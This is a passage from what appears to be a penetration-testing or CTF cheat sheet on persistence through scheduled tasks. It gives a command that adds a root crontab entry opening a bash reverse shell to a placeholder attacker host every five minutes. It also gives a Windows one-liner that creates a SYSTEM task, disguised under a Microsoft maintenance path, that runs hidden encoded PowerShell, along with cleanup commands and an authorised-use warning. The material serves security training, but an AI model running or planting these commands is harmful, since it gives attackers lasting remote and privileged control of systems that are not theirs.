echo "*/5 * * * * root bash -i >& /dev/tcp/LHOST/LPORT 0>&1" >> /etc/crontab

# Clean up (remove your entry)
crontab -l | grep -v "LHOST" | crontab -
```

### Windows

```powershell
# Enumerate all scheduled tasks
Get-ScheduledTask | Select TaskName, TaskPath, State | Sort TaskPath
schtasks /query /fo LIST /v

# Create task as SYSTEM (one-liner)
schtasks /create /sc minute /mo 5 /tn "\Microsoft\Windows\Maintenance\SvcCheck" /tr "powershell.exe -w hidden -nop -enc PAYLOAD" /ru SYSTEM /f

# Clean up
Unregister-ScheduledTask -TaskName "SvcCheck" -TaskPath "\Microsoft\Windows\Maintenance\" -Confirm:$false
schtasks /delete /tn "\Microsoft\Windows\Maintenance\SvcCheck" /f
```

---

> **Warning:** All techniques described in this document are intended for use in **authorized penetration testing engagements** and **CTF environments** only. Unauthorized access to computer systems is illegal. Always obtain written permission before testing.

> **Note:** When cleaning up after an engagement, ensure all cron entries, scheduled tasks, scripts, and dropped files are removed and verified as absent. Leaving persistence mechanisms active after an engagement is a serious violation of professional standards.
